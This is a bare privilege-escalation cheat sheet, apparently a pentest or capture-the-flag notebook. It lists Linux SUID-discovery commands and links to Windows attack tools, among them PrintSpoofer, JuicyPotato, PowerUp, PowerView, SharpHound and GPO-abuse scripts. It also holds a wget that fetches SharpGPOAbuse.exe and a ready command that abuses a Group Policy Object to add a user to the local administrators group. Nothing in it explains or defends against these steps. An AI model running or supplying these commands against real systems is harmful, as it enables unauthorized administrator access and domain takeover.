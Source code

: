 # Linux Privesc
```sudo -l
```
```
find / -type f -perm -u=s 2>/dev/null
```
```
find / -type f -perm -4000 2>/dev/null
```
# Window Privesc
## PrintSpoofer.exe
```
https://github.com/itm4n/PrintSpoofer
```
## JuicyPotato
```
https://github.com/ohpe/juicy-potato
```
## Powerup
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
## Powerview
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
## SharpHound
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```
## PowerGPOAbuse
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```
## SharpGPOAbuse
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
